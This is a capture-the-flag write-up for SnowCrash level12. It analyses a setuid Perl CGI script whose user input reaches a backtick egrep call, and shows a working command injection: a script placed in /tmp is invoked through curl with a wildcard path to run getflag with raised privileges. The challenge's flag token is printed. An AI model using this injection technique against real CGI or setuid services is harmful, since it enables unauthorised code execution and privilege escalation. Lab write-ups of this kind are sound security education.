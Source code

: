 # level12

## Hint

We can see that there is a perl file named `level12.pl`.

First of all there is a `setuid` bit.

And surely this will be our target for the next exploit, just like in `level04`.

```shell-session
level12@SnowCrash:~$ ls -la level12.pl
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

## The script

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

First of all, we see it's doing some communicating with `localhost` on port `4646`.
And again, like on `level04` with a Common Gateway Interface.

We can see two subroutines: `t` and `n`. 

rom the function call at the bottom we can see that they're nested subroutines. 

Let's continue ...

### subroutine `n`

This subroutine looks like it is printing two strings.
- Either `".."` or `"."`
- It checks the first argument `$_[0]` and if it is equal to `1` returns `".."` and `"."` otherwise.

So basically it's just checking the return of that other subroutine.

### subroutine `t`

This one is harder.

We have two arguments : `$_[0]` and `$_[1]`.

They are assigned to a local variable:

`$_[0]` -> `$xx`
`$_[0]` -> `$nn`

Thus the local variable `$xx` is translated with `tr` operator to a capitalized version of the contents of that variable.

Then, some subsitution of whitespaces is done on it (thank to the  `s` operator) which will remove any whitespace from the string.

For exemple thoses two lines transform a string like:

> "This is a String !"

to

> "THISISASTRING!"

We know that we transform the first argument to a capitalized string without spaces.

The third variable that we can see in there is `@output`, which is an array assigned by

```
egrep "^$xx" /tmp/xd 2>&1
```

The `egrep` call will output the matching lines whoses begin with the transformed string `$xx` in a file located in `/tmp` named `xd`..

The main takeawat here is: **shell commands are unprotected and executed within a script with `suid` and `guid` bits set**

And as we have seen in several different exercises now: its vulnerable.

## exploit

Lets gather our current knowledge on the task at hand:
1. the script is executed with elevated priviledges
2. it executes unprotected shell commands
3. takes user input as does some modifications to it before sending it to the `in-script` shell command-line.

The only logical thing to do left for us is sending the right shell command to the `x` parameter in order for the script to call an executable of our own making and **print** the call to `getflag.`

## inject code

First, we can see that it is possible to make the script execute shell commands for us if we wrap them in between `backticks` because of the shell command expansion that allows us to have embedded code executed in priority (i.e **before** the call to `egrep`).

```shell-session
level12@SnowCrash:~$ ./level12.pl x="`getflag > /tmp/flag`"
Content-type: text/html

..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

We see that there is some content written to the `/tmp/flag` file.

Which means that we can make an `evil` shell executable and make it be called by the script as we give it a path as parameter `x`. 

But in order to do that, we need to take into account the modifications that the program does on our input.

Which means we cannot simply give a path to a file to execute because its directories will get capitalized by the call to the `tr` tool and the path may not contain whitespaces either because they get filtered out by `s`.

Meaning the two following examples are invalid injections:

```shell-session
level12@SnowCrash:~$ ./level12.pl x="getflag > /tmp/love"
Content-type: text/html

..level12@SnowCrash:~$ cat /tmp/love
cat: /tmp/love: No such file or directory
```
1. No `backticks` makes the string unparsable by the `in-script` shell command since it will be turned to `GETFLAG>/TMP/LOVE`. which is neither a valid command line nor a valid path.

```shell-session
le vel12@SnowCrash:~$ ./level12.pl x=`getflag > /tmp/love`
Content-type: text/html

..level12@SnowCrash:~$ cat /tmp/love
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
level12@SnowCrash:~$ ls -l /tmp/love
-rw-rw-r-- 1 level12 level12 89 May 18 17:09 /tmp/love
```

2. This command line will be evaluated in **OUR** shell, and the output of that commandline will be sent to the script and that's not our goal, we need acces to the rights that the script has.

This means that we need to query the script that is currently listening on the network at port `4646` and use **ITS** rights in order to call `getflag`. To do that, and as we did for `level04` we use curl and make a nice query that will do the rest of the work for us.

## Getflag

```shell-session
level12@SnowCrash:/tmp$ echo "getflag > /tmp/flag" > EVILSCRIPT
level12@SnowCrash:/tmp$ chmod 777 EVILSCRIPT
level12@SnowCrash:/tmp$ ls -l EVILSCRIPT
-rwxrwxrwx 1 level12 level12 20 May 18 17:21 EVILSCRIPT
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x="`/*/EVILSCRIPT`"'
..level12@SnowCrash:/tmp$ cat flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
